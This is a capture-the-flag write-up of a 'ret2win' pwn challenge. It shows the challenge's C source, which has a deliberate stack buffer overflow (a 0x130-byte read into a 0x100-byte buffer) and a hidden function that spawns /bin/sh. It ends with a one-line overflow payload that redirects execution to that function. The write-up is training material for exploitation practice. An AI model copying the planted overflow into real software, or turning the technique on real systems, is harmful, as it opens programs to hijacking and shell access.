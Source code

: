 ```yaml
---

layout: post
title: LazyNano
date: 06/06/2025
categories: [ctf, pwn]
tag: [pwn, ctf]
author: Paw
description: ret2win

---
```



```C
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

void menu() {
    puts("      __                                                                     ");
    puts("     /\\ \\                                                                  ");
    puts("    /  \\ \\      .--------------------------------------------------------. ");
    puts("   / /\\ \\ \\     |░█▀▄░█▀▀░█▀▀░█▀▀░░░█▀▀░█▀█░█▀█░█▀▀░█▀█░█░░░█▀▀░░░█░█░▀█░|");
    puts("  / / /\\ \\ \\    |░█░█░█░█░▀▀█░█░█░░░█░░░█░█░█░█░▀▀█░█░█░█░░░█▀▀░░░▀▄▀░░█░|");
    puts(" / / /__\\_\\ \\   |░▀▀░░▀▀▀░▀▀▀░▀▀▀░░░▀▀▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀░░░░▀░░▀▀▀|");
    puts("/ / /________\\  '--------------------------------------------------------'  ");
    puts("\\/___________/                                                              ");
}

void debug_access(void) {
    puts("Accès à l'interface de debogage...");

    __asm__(
        ".intel_syntax noprefix;"
        "push 0x0;"
        ".att_syntax;"
    );
    
    system("/bin/sh");
    return;
}

void take_command() {
    char command[0x100];
    
    printf("> ");
    read(0, command, 0x130);
    printf("Commande inconnue\n");
}

int main(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    menu();

    printf("Terminal de contrôle à distance de la base martienne Fermat\n");

    while (1) {
        take_command();
    }

    return 0;
}
```
> In this challenge the source code was given


We can some function called `debug_access`, it's a ret2win challenge. 

In a ret2win challenge you just have to find the offset to crush the EIP/RIP and return the function address.
> offset + return adress

```bash
gorfou-en-danger-1 readelf -s ./chall| grep "debug"
    42: 00000000004004fd    29 FUNC    GLOBAL DEFAULT    4 debug_access
```
so we just have to put the address in little endian 
debug adress in little endian : `\xfd\x04@\x00\x00\x00\x00\x00`
solution : 
```bash
(echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xfd\x04@\x00\x00\x00\x00\x00";cat) | ./chall
```